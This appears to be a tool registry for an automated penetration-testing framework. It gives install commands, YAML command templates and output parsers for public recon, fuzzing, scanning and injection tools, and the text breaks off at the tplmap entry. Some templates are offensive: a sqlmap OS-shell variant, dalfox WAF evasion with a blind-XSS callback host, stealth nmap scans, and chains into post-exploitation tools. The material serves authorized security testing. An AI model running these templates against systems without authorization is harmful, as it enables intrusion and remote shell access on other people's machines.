

# Tool Registry

**Single source of truth** for every pentest tool available in opencode-pentester.
Organized by attack domain with command templates, output parsers, and chain relationships.

---

## Tool Selection Matrix

| Domain | Tool Count | Install Sources | Output Types |
|--------|-----------|-----------------|--------------|
| Reconnaissance | 15 | apt / go / pip / gem | json, text, csv |
| Discovery | 8 | apt / go / pip | json, text |
| Scanning & Analysis | 8 | apt / go / pip / gem | json, html, text |
| Injection | 7 | apt / pip | json, text, csv |
| Authentication & Tokens | 4 | pip / go / npm | text, csv |
| SAST / SCA / Secrets | 8 | pip / go / npm | json, sarif, text |
| Post-Exploitation | 8 | download / pip / go | json, text |
| Browser & Proxy | 4 | pip / binary | not applicable |
| Cloud & Infrastructure | 5 | pip / go / apt | json, text |
| CVE & Exploit Research | 3 | apt / pip | json, text |
| AI / LLM Security | 4 | pip / npm | json, text |

**Total: 74 tools** across 11 domains (original registry; the engine's SQLite
seed in `db/seed.py` tracks 75 tools across 16 domains).

---

## Vault Conventions

| Field | Description |
|-------|-------------|
| `category` | Attack domain grouping |
| `install` | Recommended install command |
| `binary` | CLI binary name after install |
| `version_check` | Command to verify availability |
| `output_format` | Native output format (json/xml/text/csv) |
| `command_variants` | Named invocation patterns with flags, output paths, and parse instructions |
| `feeds_into` | Downstream tools that consume this tool's output |

---

## 1. Reconnaissance

### subfinder

```yaml
subfinder:
  category: reconnaissance
  install: go install github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
  binary: subfinder
  version_check: subfinder --version 2>&1 | head -1
  output_format: text
  command_variants:
    passive:
      template: "subfinder -d {domain} -all -o {output}"
      flags: "-all -silent"
      output: "outputs/recon/subfinder/{domain}-subdomains.txt"
      parse: "sort -u {output} > {output}.sorted && mv {output}.sorted {output}"
    active:
      template: "subfinder -d {domain} -recursive -o {output}"
      flags: "-recursive -silent -t 100"
      output: "outputs/recon/subfinder/{domain}-subdomains-recursive.txt"
      parse: "wc -l {output}"
  feeds_into: [dnsx, httpx, nuclei, gau]
```

### amass

```yaml
amass:
  category: reconnaissance
  install: apt install amass -y
  binary: amass
  version_check: amass --version 2>&1 | head -1
  output_format: text
  command_variants:
    passive:
      template: "amass enum -passive -d {domain} -o {output}"
      flags: "-passive -nocolor"
      output: "outputs/recon/amass/{domain}-passive.txt"
      parse: "sort -u {output}"
    active:
      template: "amass enum -active -d {domain} -o {output}"
      flags: "-active -nocolor -brute"
      output: "outputs/recon/amass/{domain}-active.txt"
      parse: "sort -u {output}"
    intel:
      template: "amass intel -whois -d {domain} -o {output}"
      flags: "-whois"
      output: "outputs/recon/amass/{domain}-intel.txt"
      parse: "cat {output}"
  feeds_into: [dnsx, httpx, nuclei]
```

### dnsx

```yaml
dnsx:
  category: reconnaissance
  install: go install github.com/projectdiscovery/dnsx/cmd/dnsx@latest
  binary: dnsx
  version_check: dnsx --version 2>&1 | head -1
  output_format: text
  command_variants:
    resolve:
      template: "dnsx -l {input} -o {output}"
      flags: "-a -aaaa -cname -ns -mx -soa -silent"
      output: "outputs/recon/dnsx/{domain}-resolved.txt"
      parse: "awk '{print $1}' {output} | sort -u > {output}.ips"
    wildcard:
      template: "dnsx -l {input} -wd -o {output}"
      flags: "-wd -recon -silent"
      output: "outputs/recon/dnsx/{domain}-wildcard-check.txt"
      parse: "grep -v 'wildcard' {output}"
  feeds_into: [httpx, nuclei, nmap]
```

### dnsrecon

```yaml
dnsrecon:
  category: reconnaissance
  install: apt install dnsrecon -y
  binary: dnsrecon
  version_check: dnsrecon --version 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "dnsrecon -d {domain} -t std -c {output}"
      flags: "-t std"
      output: "outputs/recon/dnsrecon/{domain}-std.csv"
      parse: "column -s, -t {output}"
    brute:
      template: "dnsrecon -d {domain} -D {wordlist} -t brt -c {output}"
      flags: "-t brt -D /usr/share/wordlists/dns/subdomains.txt"
      output: "outputs/recon/dnsrecon/{domain}-brute.csv"
      parse: "column -s, -t {output}"
    zonewalk:
      template: "dnsrecon -d {domain} -t zonewalk -c {output}"
      flags: "-t zonewalk"
      output: "outputs/recon/dnsrecon/{domain}-zonewalk.csv"
      parse: "column -s, -t {output}"
  feeds_into: [dnsx, nmap]
```

### dig

```yaml
dig:
  category: reconnaissance
  install: apt install dnsutils -y
  binary: dig
  version_check: dig -v 2>&1 | head -1
  output_format: text
  command_variants:
    any:
      template: "dig {domain} ANY +noall +answer > {output}"
      flags: "ANY +noall +answer"
      output: "outputs/recon/dig/{domain}-any.txt"
      parse: "cat {output}"
    axfr:
      template: "dig AXFR {domain} @{nameserver} +noall +answer > {output}"
      flags: "AXFR +noall +answer"
      output: "outputs/recon/dig/{domain}-axfr.txt"
      parse: "cat {output} | grep -v 'Transfer failed'"
    mx:
      template: "dig MX {domain} +short > {output}"
      flags: "MX +short"
      output: "outputs/recon/dig/{domain}-mx.txt"
      parse: "cat {output}"
  feeds_into: [dnsx, dnsrecon, nmap]
```

### httpx

```yaml
httpx:
  category: reconnaissance
  install: go install github.com/projectdiscovery/httpx/cmd/httpx@latest
  binary: httpx
  version_check: httpx --version 2>&1 | head -1
  output_format: json
  command_variants:
    probe:
      template: "httpx -l {input} -o {output}"
      flags: "-silent -status-code -title -tech-detect -follow-redirects"
      output: "outputs/recon/httpx/{domain}-probed.txt"
      parse: "cat {output}"
    json:
      template: "httpx -l {input} -json -o {output}"
      flags: "-silent -json -status-code -title -tech-detect -follow-redirects -content-length -web-server -cdn"
      output: "outputs/recon/httpx/{domain}-probed.json"
      parse: "jq -r '{url: .url, status: .status_code, title: .title, tech: .tech}' {output}"
    screenshot:
      template: "httpx -l {input} -ss -srd {output}"
      flags: "-ss -srd screenshots -silent"
      output: "screenshots/{domain}-screenshots/"
      parse: "ls {output}"
  feeds_into: [nuclei, katana, ffuf, dalfox, wpscan]
```

### nmap

```yaml
nmap:
  category: reconnaissance
  install: apt install nmap -y
  binary: nmap
  version_check: nmap --version 2>&1 | head -1
  output_format: xml
  command_variants:
    quick:
      template: "nmap {target} -F -oA {output}"
      flags: "-F -T4 --open"
      output: "outputs/recon/nmap/{target}-quick"
      parse: "nmap-xml-to-json {output}.xml 2>/dev/null || xsltproc {output}.xml -o {output}.html"
    full:
      template: "nmap {target} -p- -oA {output}"
      flags: "-p- -T4 --open -sV"
      output: "outputs/recon/nmap/{target}-full"
      parse: "nmap-xml-to-json {output}.xml 2>/dev/null || xsltproc {output}.xml -o {output}.html"
    stealth:
      template: "sudo nmap {target} -sS -oA {output}"
      flags: "-sS -T4 --open -sV -f"
      output: "outputs/recon/nmap/{target}-stealth"
      parse: "grep -E 'open|filtered' {output}.nmap"
    vuln:
      template: "nmap {target} --script vuln -oA {output}"
      flags: "--script vuln -sV -T4"
      output: "outputs/recon/nmap/{target}-vuln"
      parse: "grep -A5 'VULNERABLE\\|vulners' {output}.nmap"
    os:
      template: "sudo nmap {target} -O -oA {output}"
      flags: "-O -T4 --osscan-guess"
      output: "outputs/recon/nmap/{target}-os"
      parse: "grep 'OS details' {output}.nmap"
    udp:
      template: "sudo nmap {target} -sU -oA {output}"
      flags: "-sU -T4 --top-ports 200"
      output: "outputs/recon/nmap/{target}-udp"
      parse: "grep -E 'open|filtered' {output}.nmap"
  feeds_into: [nuclei, searchsploit, nmap-nse]
```

### masscan

```yaml
masscan:
  category: reconnaissance
  install: apt install masscan -y
  binary: masscan
  version_check: masscan --version 2>&1 | head -1
  output_format: text
  command_variants:
    full:
      template: "sudo masscan {target} -p0-65535 --rate={rate} -oJ {output}"
      flags: "--rate=10000 -oJ"
      output: "outputs/recon/masscan/{target}-full.json"
      parse: "jq '[.ports[] | {ip: .ip, port: .port, proto: .proto}]' {output}"
    top1000:
      template: "sudo masscan {target} --top-ports 1000 --rate={rate} -oJ {output}"
      flags: "--top-ports 1000 --rate=10000 -oJ"
      output: "outputs/recon/masscan/{target}-top1000.json"
      parse: "jq '[.ports[] | {ip: .ip, port: .port, proto: .proto}]' {output}"
  feeds_into: [nmap, nuclei]
```

### smap

```yaml
smap:
  category: reconnaissance
  install: go install github.com/s0md3v/smap/cmd/smap@latest
  binary: smap
  version_check: smap -version 2>&1 | head -1
  output_format: json
  command_variants:
    scan:
      template: "smap {target} -oJ {output}"
      flags: "-oJ"
      output: "outputs/recon/smap/{target}-shodan.json"
      parse: "jq '.' {output}"
    csv:
      template: "smap {target} -oC {output}"
      flags: "-oC"
      output: "outputs/recon/smap/{target}-shodan.csv"
      parse: "column -s, -t {output}"
  feeds_into: [nmap, nuclei, whatweb]
```

### katana

```yaml
katana:
  category: reconnaissance
  install: go install github.com/projectdiscovery/katana/cmd/katana@latest
  binary: katana
  version_check: katana --version 2>&1 | head -1
  output_format: json
  command_variants:
    crawl:
      template: "katana -u {target} -o {output}"
      flags: "-silent -jc -kf all"
      output: "outputs/recon/katana/{target}-crawl.txt"
      parse: "cat {output}"
    deep:
      template: "katana -u {target} -d 5 -o {output}"
      flags: "-d 5 -aff -jc -kf all -silent -fs fqdn"
      output: "outputs/recon/katana/{target}-deep.txt"
      parse: "sort -u {output}"
    known-files:
      template: "katana -u {target} -kf all -o {output}"
      flags: "-kf all -silent -jc"
      output: "outputs/recon/katana/{target}-known-files.txt"
      parse: "grep -E '\\.(js|json|xml|yaml|yml|conf|config|bak|old|txt|sql|env|git|svn)' {output}"
  feeds_into: [nuclei, dalfox, ffuf, sqlmap, gau]
```

### gau

```yaml
gau:
  category: reconnaissance
  install: go install github.com/lc/gau/v2/cmd/gau@latest
  binary: gau
  version_check: gau --version 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "gau {domain} --o {output}"
      flags: "--threads 50"
      output: "outputs/recon/gau/{domain}-urls.txt"
      parse: "sort -u {output}"
    subdomains:
      template: 'gau "{domain}" --subs | python3 engine/scope_guard.py --filter --scope "{domain}" | sort -u > "{output}"'
      flags: "--threads 50"
      output: "outputs/recon/gau/{domain}-all-urls.txt"
      parse: "sort -u {output}"
  feeds_into: [katana, nuclei, dalfox, sqlmap, ffuf]
```

### waybackurls

```yaml
waybackurls:
  category: reconnaissance
  install: go install github.com/tomnomnom/waybackurls@latest
  binary: waybackurls
  version_check: waybackurls -h 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "waybackurls {domain} > {output}"
      flags: ""
      output: "outputs/recon/wayback/{domain}-urls.txt"
      parse: "sort -u {output}"
    dates:
      template: "waybackurls -dates {domain} > {output}"
      flags: "-dates"
      output: "outputs/recon/wayback/{domain}-dated-urls.txt"
      parse: "sort -t'[' -k2 {output}"
  feeds_into: [katana, nuclei, dalfox, ffuf]
```

### crt.sh

```yaml
crt.sh:
  category: reconnaissance
  install: "No install required (API-based). Use curl."
  binary: curl
  version_check: curl --version 2>&1 | head -1
  output_format: json
  command_variants:
    query:
      template: "curl -s 'https://crt.sh/?q=%25.{domain}&output=json' -o {output}"
      flags: "-s"
      output: "outputs/recon/crtsh/{domain}-certs.json"
      parse: "jq -r '.[].name_value' {output} | sort -u"
    identity:
      template: "curl -s 'https://crt.sh/?q={domain}&output=json' -o {output}"
      flags: "-s"
      output: "outputs/recon/crtsh/{domain}-identity.json"
      parse: "jq -r '.[].name_value' {output} | sort -u | grep -v '@'"
  feeds_into: [subfinder, dnsx, httpx]
```

### whois

```yaml
whois:
  category: reconnaissance
  install: apt install whois -y
  binary: whois
  version_check: whois --version 2>&1 | head -1
  output_format: text
  command_variants:
    domain:
      template: "whois {domain} > {output}"
      flags: ""
      output: "outputs/recon/whois/{domain}-whois.txt"
      parse: "grep -E 'Registrar|Creation Date|Expiry Date|Name Server|Registrant|Admin|Tech' {output}"
    ip:
      template: "whois {ip} > {output}"
      flags: ""
      output: "outputs/recon/whois/{ip}-whois.txt"
      parse: "grep -E 'NetRange|CIDR|Organization|OrgName|NetName' {output}"
  feeds_into: [subfinder, amass, nmap]
```

### whatweb

```yaml
whatweb:
  category: reconnaissance
  install: apt install whatweb -y
  binary: whatweb
  version_check: whatweb --version 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "whatweb {target} --log-json={output}"
      flags: "--aggression 1 --log-json"
      output: "outputs/recon/whatweb/{target}-tech.json"
      parse: "jq '.plugins | keys' {output}"
    aggressive:
      template: "whatweb {target} --aggression 3 --log-json={output}"
      flags: "--aggression 3 --log-json"
      output: "outputs/recon/whatweb/{target}-tech-aggressive.json"
      parse: "jq '.plugins | keys' {output}"
  feeds_into: [nuclei, wpscan, dalfox, nikto]
```

---

## 2. Discovery

### ffuf

```yaml
ffuf:
  category: discovery
  install: apt install ffuf -y
  binary: ffuf
  version_check: ffuf -V 2>&1 | head -1
  output_format: json
  command_variants:
    quick:
      template: "ffuf -u {target}/FUZZ -w {wordlist} -o {output}"
      flags: "-ac -t 50 -sf -s"
      output: "outputs/discovery/ffuf/{target}-quick.json"
      parse: "cat {output} | jq '.results[] | {status: .status, url: .url, length: .length}'"
    extension:
      template: "ffuf -u {target}/FUZZ -w {wordlist} -e {extensions} -o {output}"
      flags: "-ac -t 50 -e .php,.asp,.aspx,.jsp,.html,.txt,.json,.xml,.bak,.old,.zip,.tar.gz"
      output: "outputs/discovery/ffuf/{target}-ext.json"
      parse: "cat {output} | jq '.results[] | select(.status != 404) | {status: .status, url: .url}'"
    recursive:
      template: "ffuf -u {target}/FUZZ -w {wordlist} -recursion -recursion-depth {depth} -o {output}"
      flags: "-ac -t 50 -recursion -recursion-depth 3"
      output: "outputs/discovery/ffuf/{target}-recursive.json"
      parse: "cat {output} | jq '.results[] | select(.status != 404)'"
    post:
      template: "ffuf -u {target}/FUZZ -w {wordlist} -X POST -d 'param1=key1&FUZZ=test' -o {output}"
      flags: "-ac -t 50 -X POST -H 'Content-Type: application/x-www-form-urlencoded'"
      output: "outputs/discovery/ffuf/{target}-post.json"
      parse: "cat {output} | jq '.results[] | {status: .status, url: .url, length: .length}'"
    vhost:
      template: "ffuf -u {target} -w {wordlist} -H 'Host: FUZZ.{domain}' -o {output}"
      flags: "-ac -t 50 -fs {filter_size}"
      output: "outputs/discovery/ffuf/{target}-vhost.json"
      parse: "cat {output} | jq '.results[] | {status: .status, host: .input}'"
  feeds_into: [nuclei, sqlmap, dalfox, katana]
```

### gobuster

```yaml
gobuster:
  category: discovery
  install: apt install gobuster -y
  binary: gobuster
  version_check: gobuster --version 2>&1 | head -1
  output_format: text
  command_variants:
    dir:
      template: "gobuster dir -u {target} -w {wordlist} -o {output}"
      flags: "-t 50 -q -s 200,204,301,302,307,401,403"
      output: "outputs/discovery/gobuster/{target}-dirs.txt"
      parse: "cat {output}"
    dns:
      template: "gobuster dns -d {domain} -w {wordlist} -o {output}"
      flags: "-t 50 -q"
      output: "outputs/discovery/gobuster/{domain}-dns.txt"
      parse: "cat {output}"
    vhost:
      template: "gobuster vhost -u {target} -w {wordlist} -o {output}"
      flags: "-t 50 -q -k"
      output: "outputs/discovery/gobuster/{target}-vhost.txt"
      parse: "cat {output} | grep 'Found:'"
    s3:
      template: "gobuster s3 -w {wordlist} -o {output}"
      flags: "-t 50 -q"
      output: "outputs/discovery/gobuster/s3-buckets.txt"
      parse: "cat {output}"
  feeds_into: [nuclei, sqlmap, s3scanner]
```

### feroxbuster

```yaml
feroxbuster:
  category: discovery
  install: apt install feroxbuster -y
  binary: feroxbuster
  version_check: feroxbuster --version 2>&1 | head -1
  output_format: json
  command_variants:
    recursive:
      template: "feroxbuster -u {target} -w {wordlist} -o {output}"
      flags: "-x php,txt,html,js,json,xml -t 50 -d 3 -s 200,204,301,302,307,401,403 --smart"
      output: "outputs/discovery/feroxbuster/{target}.json"
      parse: "cat {output} | jq '.results[] | select(.status != 404)'"
    no-recursion:
      template: "feroxbuster -u {target} -w {wordlist} -d 1 -o {output}"
      flags: "-x php,txt,html,js,json,xml -t 50 -d 1 -s 200,204,301,302,307,401,403"
      output: "outputs/discovery/feroxbuster/{target}-flat.json"
      parse: "cat {output} | jq '.results[] | {status: .status, url: .url, size: .size}'"
  feeds_into: [nuclei, sqlmap, dalfox]
```

### dirsearch

```yaml
dirsearch:
  category: discovery
  install: pip install dirsearch 2>/dev/null || apt install dirsearch -y
  binary: dirsearch
  version_check: dirsearch --version 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "dirsearch -u {target} -w {wordlist} -o {output}"
      flags: "-t 50 -e php,asp,aspx,jsp,html,txt,json,xml,zip,tar,gz,bak,old"
      output: "outputs/discovery/dirsearch/{target}.txt"
      parse: "cat {output}"
    recursive:
      template: "dirsearch -u {target} -w {wordlist} -r -o {output}"
      flags: "-t 50 -r -e php,html,txt -R 3"
      output: "outputs/discovery/dirsearch/{target}-recursive.txt"
      parse: "cat {output}"
  feeds_into: [nuclei, sqlmap, dalfox]
```

### arjun

```yaml
arjun:
  category: discovery
  install: pip install arjun
  binary: arjun
  version_check: arjun --version 2>&1 | head -1
  output_format: json
  command_variants:
    get:
      template: "arjun -u {target} -o {output}"
      flags: "-t 20 --rate-limit 10"
      output: "outputs/discovery/arjun/{target}-params.json"
      parse: "cat {output} | jq '.params'"
    post:
      template: "arjun -u {target} -m POST -o {output}"
      flags: "-t 20 -m POST --rate-limit 10"
      output: "outputs/discovery/arjun/{target}-post-params.json"
      parse: "cat {output} | jq '.params'"
  feeds_into: [sqlmap, dalfox, nuclei]
```

### paramspider

```yaml
paramspider:
  category: discovery
  install: pip install paramspider
  binary: paramspider
  version_check: paramspider --version 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "paramspider -d {domain} -o {output}"
      flags: "--level high --subs"
      output: "outputs/discovery/paramspider/{domain}-params.txt"
      parse: "sort -u {output}"
    exclude:
      template: "paramspider -d {domain} -e {exclude} -o {output}"
      flags: "--level high --subs -e js,css,png,jpg,jpeg,gif,svg,woff,woff2"
      output: "outputs/discovery/paramspider/{domain}-params-filtered.txt"
      parse: "sort -u {output}"
  feeds_into: [sqlmap, dalfox, nuclei]
```

### kiterunner

```yaml
kiterunner:
  category: discovery
  install: "go install github.com/assetnote/kiterunner@latest"
  binary: kr
  version_check: kr version 2>&1 | head -1
  output_format: json
  command_variants:
    brute:
      template: "kr brute {target} -w {wordlist} -o {output}"
      flags: "-t 50 -A -x 30"
      output: "outputs/discovery/kiterunner/{target}-api.json"
      parse: "cat {output} | jq '.routes[] | {path: .path, status: .status, method: .method}'"
    websocket:
      template: "kr brute {target} -w {wordlist} -o {output} --ws"
      flags: "-t 50 -A -x 30 --ws"
      output: "outputs/discovery/kiterunner/{target}-api-ws.json"
      parse: "cat {output} | jq '.routes[] | {path: .path, status: .status}'"
  feeds_into: [nuclei, sqlmap]
```

### wfuzz

```yaml
wfuzz:
  category: discovery
  install: pip install wfuzz
  binary: wfuzz
  version_check: wfuzz --version 2>&1 | head -1
  output_format: text
  command_variants:
    directory:
      template: "wfuzz -w {wordlist} -u {target}/FUZZ --hc 404 -o csv > {output}"
      flags: "-t 50 --hc 404 -o csv"
      output: "outputs/discovery/wfuzz/{target}-dirs.csv"
      parse: "column -s, -t {output}"
    parameter:
      template: "wfuzz -z list,{params} -u '{target}?FUZZ={value}' -o csv > {output}"
      flags: "-t 50 --hc 404 -o csv"
      output: "outputs/discovery/wfuzz/{target}-params.csv"
      parse: "column -s, -t {output}"
    post:
      template: "wfuzz -w {wordlist} -d 'param=FUZZ' -u {target} --hc 404 -o csv > {output}"
      flags: "-t 50 -X POST -H 'Content-Type: application/x-www-form-urlencoded' --hc 404 -o csv"
      output: "outputs/discovery/wfuzz/{target}-post.csv"
      parse: "column -s, -t {output}"
  feeds_into: [nuclei, sqlmap, dalfox]
```

---

## 3. Scanning & Analysis

### nuclei

```yaml
nuclei:
  category: scanning
  install: apt install nuclei -y
  binary: nuclei
  version_check: nuclei --version 2>&1 | head -1
  output_format: json
  command_variants:
    auto:
      template: "nuclei -u {target} -o {output}"
      flags: "-stats -silent -rl 150"
      output: "outputs/scanning/nuclei/{target}-auto.txt"
      parse: "cat {output}"
    cve:
      template: "nuclei -u {target} -tags cve -severity critical,high,medium -o {output}"
      flags: "-stats -silent -rl 100 -severity critical,high,medium"
      output: "outputs/scanning/nuclei/{target}-cve.json"
      parse: "cat {output} | jq -s '[.[] | {template: .template-id, name: .info.name, severity: .info.severity, url: .host}]'"
    tech:
      template: "nuclei -u {target} -tags tech -o {output}"
      flags: "-stats -silent -rl 150"
      output: "outputs/scanning/nuclei/{target}-tech.json"
      parse: "cat {output} | jq -s '[.[] | {template: .template-id, name: .info.name, match: .matched}]'"
    exposure:
      template: "nuclei -u {target} -tags exposure -o {output}"
      flags: "-stats -silent -rl 100"
      output: "outputs/scanning/nuclei/{target}-exposure.json"
      parse: "cat {output} | jq -s '[.[] | {template: .template-id, name: .info.name, severity: .info.severity}]'"
    misconfig:
      template: "nuclei -u {target} -tags misconfig -o {output}"
      flags: "-stats -silent -rl 150"
      output: "outputs/scanning/nuclei/{target}-misconfig.json"
      parse: "cat {output} | jq -s '[.[] | {template: .template-id, name: .info.name, severity: .info.severity}]'"
  feeds_into: [searchsploit, sqlmap]
```

### nikto

```yaml
nikto:
  category: scanning
  install: apt install nikto -y
  binary: nikto
  version_check: nikto -Version 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "nikto -h {target} -o {output} -Format txt"
      flags: "-ssl -port {port} -Format txt -Tuning 123456789"
      output: "outputs/scanning/nikto/{target}.txt"
      parse: "grep -E '^\\+|OSVDB|CVE' {output}"
    json:
      template: "nikto -h {target} -o {output} -Format json"
      flags: "-ssl -port {port} -Format json -Tuning 123456789"
      output: "outputs/scanning/nikto/{target}.json"
      parse: "cat {output} | jq '.vulnerabilities[] | {id: .id, method: .method, url: .url, msg: .msg}'"
  feeds_into: [sqlmap, searchsploit]
```

### OWASP ZAP

```yaml
owasp_zap:
  category: scanning
  install: "docker pull ghcr.io/zaproxy/zaproxy:stable || apt install zaproxy"
  binary: zap.sh
  version_check: zap.sh -version 2>&1 | head -1
  output_format: json
  command_variants:
    spider:
      template: "zap-cli spider {target} -o {output}"
      flags: "-r -t 5"
      output: "outputs/scanning/zap/{target}-spider.json"
      parse: "cat {output} | jq '.spider.urls'"
    active:
      template: "zap-cli active-scan {target} -o {output}"
      flags: "-r -t 5 -c"
      output: "outputs/scanning/zap/{target}-active.json"
      parse: "cat {output} | jq '.alerts[] | {name: .alert, risk: .risk, url: .url, param: .param}'"
    api:
      template: "zap-cli api-scan {target} -o {output}"
      flags: "-t 5 -f openapi"
      output: "outputs/scanning/zap/{target}-api.json"
      parse: "cat {output} | jq '.alerts[] | {name: .alert, risk: .risk, url: .url}'"
    quick:
      template: "zap-cli quick-scan {target} -o {output}"
      flags: "-t 5 -s xss,sqli,csrf"
      output: "outputs/scanning/zap/{target}-quick.json"
      parse: "cat {output} | jq '.alerts[] | {name: .alert, risk: .risk, url: .url}'"
  feeds_into: [sqlmap, dalfox, searchsploit]
```

### wapiti

```yaml
wapiti:
  category: scanning
  install: pip install wapiti3
  binary: wapiti
  version_check: wapiti --version 2>&1 | head -1
  output_format: json
  command_variants:
    standard:
      template: "wapiti -u {target} -f json -o {output}"
      flags: "--scope folder -s 5"
      output: "outputs/scanning/wapiti/{target}/"
      parse: "cat {output}infos.json | jq '.vulnerabilities'"
    modules:
      template: "wapiti -u {target} -f json -m {modules} -o {output}"
      flags: "--scope folder -s 5 -m sql,blind-sql,xss,crlf,exec,file,htaccess,backup,permanentxss"
      output: "outputs/scanning/wapiti/{target}/"
      parse: "cat {output}infos.json | jq '.vulnerabilities'"
  feeds_into: [sqlmap, dalfox]
```

### dalfox

```yaml
dalfox:
  category: scanning
  install: go install github.com/hahwul/dalfox/v2@latest
  binary: dalfox
  version_check: dalfox version 2>&1 | head -1
  output_format: json
  command_variants:
    pipe:
      template: "cat {input} | dalfox pipe -o {output}"
      flags: "--silence --no-color -b https://{burp-collaborator}"
      output: "outputs/scanning/dalfox/{target}-xss.json"
      parse: "cat {output} | jq '.results[] | {url: .url, param: .param, type: .type, evidence: .evidence}'"
    url:
      template: "dalfox url {target} -o {output}"
      flags: "--silence --no-color --waf-evasion -b https://{burp-collaborator}"
      output: "outputs/scanning/dalfox/{target}-single.json"
      parse: "cat {output} | jq '.results[] | {url: .url, param: .param, type: .type}'"
    file:
      template: "dalfox file {input} -o {output}"
      flags: "--silence --no-color --follow-redirects --waf-evasion"
      output: "outputs/scanning/dalfox/{target}-batch.json"
      parse: "cat {output} | jq -s '.results[] | {url: .url, param: .param, type: .type, severity: .severity}'"
  feeds_into: [sqlmap]
```

### testssl.sh

```yaml
testssl_sh:
  category: scanning
  install: apt install testssl.sh -y || git clone --depth 1 https://github.com/drwetter/testssl.sh.git
  binary: testssl.sh
  version_check: testssl.sh --version 2>&1 | head -1
  output_format: text
  command_variants:
    basic:
      template: "testssl.sh --quiet --jsonfile={output} {target}"
      flags: "--quiet --jsonfile"
      output: "outputs/scanning/testssl/{target}-basic.json"
      parse: "cat {output} | jq '.results[] | select(.severity == \"HIGH\" or .severity == \"CRITICAL\")'"
    all:
      template: "testssl.sh --quiet --jsonfile={output} --full {target}"
      flags: "--quiet --jsonfile --full"
      output: "outputs/scanning/testssl/{target}-full.json"
      parse: "cat {output} | jq '.results[] | {id: .id, finding: .finding, severity: .severity}'"
    protocol:
      template: "testssl.sh --quiet --jsonfile={output} --protocols {target}"
      flags: "--quiet --jsonfile --protocols"
      output: "outputs/scanning/testssl/{target}-protocol.json"
      parse: "cat {output} | jq '.results[] | select(.id | test(\"protocol|TLS|SSL\"))'"
    header:
      template: "testssl.sh --quiet --jsonfile={output} --headers {target}"
      flags: "--quiet --jsonfile --headers"
      output: "outputs/scanning/testssl/{target}-headers.json"
      parse: "cat {output} | jq '.results[] | select(.id | test(\"header|HSTS|HPKP|CSP\"))'"
  feeds_into: [nuclei]
```

### wpscan

```yaml
wpscan:
  category: scanning
  install: gem install wpscan
  binary: wpscan
  version_check: wpscan --version 2>&1 | head -1
  output_format: json
  command_variants:
    passive:
      template: "wpscan --url {target} --output {output} -f json"
      flags: "-e vp,vt,tt,cb,dbe,u --api-token {api_token}"
      output: "outputs/scanning/wpscan/{target}.json"
      parse: "cat {output} | jq '{version: .version, vulnerabilities: .vulnerabilities[]?, users: .users[]?}'"
    aggressive:
      template: "wpscan --url {target} --output {output} -f json --plugins-detection aggressive"
      flags: "-e vp,vt,tt,cb,dbe,u --plugins-detection aggressive --api-token {api_token}"
      output: "outputs/scanning/wpscan/{target}-aggressive.json"
      parse: "cat {output} | jq '.vulnerabilities[]? | {title: .title, type: .type, fixed_in: .fixed_in}'"
  feeds_into: [sqlmap, searchsploit]
```

### jaeles

```yaml
jaeles:
  category: scanning
  install: go install github.com/jaeles-project/jaeles@latest
  binary: jaeles
  version_check: jaeles version 2>&1 | head -1
  output_format: json
  command_variants:
    scan:
      template: "jaeles scan -u {target} -o {output}"
      flags: "--spy 50"
      output: "outputs/scanning/jaeles/{target}/"
      parse: "cat {output}/*.json | jq -s '.[] | {name: .name, severity: .severity, url: .url}'"
    signature:
      template: "jaeles scan -u {target} -c {signatures} -o {output}"
      flags: "--spy 50 -c config.yaml"
      output: "outputs/scanning/jaeles/{target}/"
      parse: "cat {output}/*.json | jq -s '.[] | {name: .name, severity: .severity, url: .url}'"
  feeds_into: [searchsploit]
```

---

## 4. Injection

### sqlmap

```yaml
sqlmap:
  category: injection
  install: apt install sqlmap -y
  binary: sqlmap
  version_check: sqlmap --version 2>&1 | head -1
  output_format: text
  command_variants:
    auto:
      template: "sqlmap -u '{target}?{params}' --batch --output-dir={output}"
      flags: "--batch --random-agent --threads 5 --level 3 --risk 2"
      output: "outputs/injection/sqlmap/{target}/"
      parse: "grep -r 'Parameter:' {output} | grep -E 'GET|POST|Cookie|User-Agent|Referer'"
    oshell:
      template: "sqlmap -u '{target}?{params}' --batch --os-shell --output-dir={output}"
      flags: "--batch --random-agent --threads 5 --level 3 --risk 2 --os-shell"
      output: "outputs/injection/sqlmap/{target}-os/"
      parse: "ls {output} 2>/dev/null && echo 'OS shell acquired' || echo 'OS shell failed'"
    request:
      template: "sqlmap -r {request_file} --batch --output-dir={output}"
      flags: "--batch --random-agent --threads 5 --level 3 --risk 2"
      output: "outputs/injection/sqlmap/{target}-req/"
      parse: "grep -r 'Parameter:' {output} | grep -E 'GET|POST|Cookie|User-Agent|Referer'"
    dbms:
      template: "sqlmap -u '{target}?{params}' --dbms={dbms} --batch --output-dir={output}"
      flags: "--batch --random-agent --threads 5 --level 5 --risk 3 --dbms={dbms}"
      output: "outputs/injection/sqlmap/{target}-dbms/"
      parse: "grep -r 'Parameter:' {output}"
  feeds_into: [commix, chisel]
```

### commix

```yaml
commix:
  category: injection
  install: apt install commix -y || git clone --depth 1 https://github.com/commixproject/commix.git
  binary: commix
  version_check: commix --version 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "commix --url='{target}?{params}' --batch --output-dir={output}"
      flags: "--batch --random-agent"
      output: "outputs/injection/commix/{target}/"
      parse: "grep -r 'VULNERABLE\|Payload\|Command' {output}"
    request:
      template: "commix -r {request_file} --batch --output-dir={output}"
      flags: "--batch --random-agent"
      output: "outputs/injection/commix/{target}-req/"
      parse: "grep -r 'VULNERABLE\|Payload\|Command' {output}"
  feeds_into: [chisel, linpeas]
```

### tplmap

```yaml
tplmap:
